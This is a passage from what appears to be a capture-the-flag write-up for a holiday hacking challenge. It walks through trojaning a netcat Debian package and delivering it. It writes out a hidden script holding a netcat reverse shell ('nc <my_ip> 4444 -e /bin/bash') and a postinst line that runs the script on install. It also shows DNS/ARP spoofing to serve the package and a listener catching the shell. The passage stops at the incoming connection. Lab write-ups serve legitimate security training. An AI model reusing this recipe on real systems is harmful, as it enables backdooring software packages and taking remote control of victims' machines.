     guest@24fc902b00b2:/tmp/packing$ tar -xf control.tar.xz ./control
    guest@24fc902b00b2:/tmp/packing$ tar -xf control.tar.xz ./postinst
    guest@24fc902b00b2:/tmp/packing$ ls
    control  control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  postinst  work

    guest@24fc902b00b2:/tmp/packing$ mv control work/DEBIAN/
    guest@24fc902b00b2:/tmp/packing$ mv postinst work/DEBIAN/
    guest@24fc902b00b2:/tmp/packing$ ls
    control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  work
    guest@24fc902b00b2:/tmp/packing$ ls work/DEBIAN/
    control  postinst
    ```
6. Create a `music` directory to hide the netcat trojan, called `jinglebells` to be festive:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ mkdir work/usr/music
    guest@24fc902b00b2:/tmp/packing$ nano work/usr/music/jinglebells
    ```
7. Place this code into the `jinglebells` file:
    ```shell
    #!/bin/bash
    nc <my_ip> 4444 -e /bin/bash
    ```
8. Make this executable:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ chmod 2755 work/usr/music/jinglebells
    ```
9. Include the exploit in the `postinst` file, which runs after the dpkg is installed:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ echo "sudo chmod 2755 /usr/music/jinglebells && /usr/music/jinglebells &" >> work/DEBIAN/postinst
    ```
10. Package it up and name it what the requester expects it to be:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ dpkg-deb --build /tmp/packing/work/
    dpkg-deb: building package 'netcat-traditional' in '/tmp/packing/work.deb'.
    guest@24fc902b00b2:/tmp/packing$ mv work.deb suriv_amd64.deb
    guest@24fc902b00b2:/tmp/packing$ ls
    control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  suriv_amd64.deb  work
    ```
11. Move it to the full path that will be requested in the HTTP GET request:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ mkdir -p ~/pub/jfrost/backdoor
    guest@24fc902b00b2:/tmp/packing$ mv suriv_amd64.deb ~/pub/jfrost/backdoor/
    ```

### The full attack

1. Setup a `netcat` listener locally for a reverse shell (the victim will connect to us):
    ```shell
    nc -lvp 4444
    ```
2. Run the DNS and ARP-spoofing along with the webserver. The HTTP request is now a successful request serving up the exploit:
    ```shell
    10.6.6.35 - - [18/Dec/2020 02:38:55] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 200 -
    ```
3. The victim sends a shell back to us and we can get the information we are after:
    ```
    guest@24fc902b00b2:~$ nc -lvvp 4444
    listening on [any] 4444 ...
    connect to [10.6.0.26] from arp_requester.guestnet0.kringlecastle.com [10.6.6.35] 44784
